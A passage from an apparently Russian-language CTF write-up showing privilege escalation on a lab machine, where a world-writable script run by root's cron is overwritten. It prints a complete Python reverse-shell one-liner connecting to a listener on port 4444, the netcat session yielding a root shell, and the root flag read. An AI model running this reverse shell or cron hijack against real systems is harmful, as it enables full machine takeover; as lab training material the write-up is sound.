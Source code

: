 Что и требовалось доказать — `cron`, демон линуксоидного планировщика, запускает скрипт `/home/sun/Documents/script.py` каждые 5 минут с привилегиями суперпользователя, а результат работы скрипта записывает в `/home/sun/output.txt`. В то же время редактировать запускаемый скрипт может кто угодно, но каждые 5 минут он перезаписывается исходным содержимым, хранящимся в `/root/script.py` и доступным только для root'а.

Дальше все зависит только от твоей изобретательности. В рамках этого поста я покажу 2 способа, как можно ~~поиметь~~ заполучить желаемый флаг привилегированного пользователя.

## PrivEsc: sun → root. Способ 1
Для начала предлагаю получить полноценный root-шелл, чтобы честно сказать, что мы полностью захватили машину. Для этого, не мудрствуя лукаво, перезапишем `script.py` стандартным для Пайтона reverse-shell'ом:
```text
sun@sun:~$ echo 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<LHOST>",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv("HISTFILE","/dev/null");pty.spawn("/bin/bash");s.close()' > Documents/script.py
```

И ждем коннекта на listener'е:
```text
root@kali:~# nc -nlvvp 4444
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.85.
Ncat: Connection from 10.10.10.85:44328.

root@sun:~# whoami
root

root@sun:~# id
uid=0(root) gid=0(root) groups=0(root)
```

### root.txt
После этого можно забирать флаг:
```text
root@sun:~# cat /root/root.txt
ba1d0019????????????????????????
```

И в качестве бонуса посмотреть суперпользовательский `crontab` (разберем его подробнее в [эпилоге]({{ page.url }}#cron)):
```
root@sun:~# crontab -l
# Edit this file to introduce tasks to be run by cron.
# 
# Each task to run has to be defined through a single line
# indicating with different fields when the task will be run
# and what command to run for the task
# 
# To define the time you can provide concrete values for
# minute (m), hour (h), day of month (dom), month (mon),
# and day of week (dow) or use '*' in these fields (for 'any').# 
# Notice that tasks will be started based on the cron's system
# daemon's notion of time and timezones.
# 
# Output of the crontab jobs (including errors) is sent through
# email to the user the crontab file belongs to (unless redirected).
# 
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
# 
```